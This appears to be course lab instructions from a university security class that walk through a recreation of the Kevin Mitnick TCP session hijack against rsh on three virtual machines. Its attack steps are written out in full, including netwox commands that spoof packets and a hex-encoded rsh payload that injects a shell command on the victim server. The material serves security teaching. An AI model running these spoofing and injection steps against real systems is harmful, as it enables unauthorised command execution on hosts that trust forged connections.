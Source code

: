 # Kevin Mitnick Attack

## Instructions
(From Jidong Xiao's CS333 Class at Boise State University. To be used with 3 SEED Ubunutu 16.04 machines on the same virtual network)

The Kevin Mitnick Attack 

Requirement: In this demo, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this demo, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

Setup: 3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the demo, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 10.0.2.15, and the victim server's IP is 10.0.2.10.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - let's choose 9090 for example.

Steps:

Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server

step 2. configure rsh on the victim server machine.

$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts

If the above configuration is correct, you should be able to run below command on the victim client machine, and it will show you current date information.

# rsh [victim server’s IP] date

step 3. simulating the syn flooding attack.
3.1 on the victim server, run:

# sudo arp -s [victim client’s IP] [victim client’s MAC]

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

3.2 shutdown the victim client VM or disconnect its network.

step 4. turn on wireshark on the attacker's VM and start capturing.

Attacking steps:

step 1: create the first TCP connection. 

step 1.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

# sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514

step 1.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1

step 1.3: send one ACK packet to the server. This packet carries the command we want to run:

# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 

step 2: create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 2.1: 

# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1

Verification steps:

step 1: on the victim's server machine, see if /tmp/xyz is created.

==============

Note: In netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'

Note 2: In the attacking steps, right after step 1.1, we need to run step 1.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 1.3, we need to run step 2.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniifing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

# sudo sysctl -w net.ipv4.tcp_syn_retries=20
# sudo sysctl -w net.ipv4.tcp_synack_retries=20

